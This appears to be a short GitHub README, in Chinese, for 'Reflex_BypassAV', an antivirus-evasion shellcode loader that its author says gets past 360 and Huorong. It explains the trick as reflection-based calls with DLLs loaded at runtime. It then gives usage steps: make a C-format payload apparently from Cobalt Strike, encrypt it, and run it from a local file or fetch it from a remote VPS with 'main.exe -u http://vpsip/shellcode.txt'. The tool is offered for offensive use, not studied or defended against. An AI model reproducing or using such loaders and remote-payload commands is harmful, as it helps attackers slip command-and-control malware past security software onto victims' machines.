


# Reflex_BypassAV

***

三月份写的一个简单的免杀加载器，可以过360、火绒。


原理就是使用反射调用加载好的函数，然后dll是在代码运行期间加载





使用：

```
cs生成c格式payload，只留下payload。

对shellcode进行加密，会在当前目录生成shellcode.txt
jiami.exe jia payload.c

对shellcode进行解密
jiami.exe jie shellcode.txt

使用本地加载shellcode
main.exe -f shellcode.txt

远程请求加载shellcode
main.exe -u http://vpsip/shellcode.txt
```

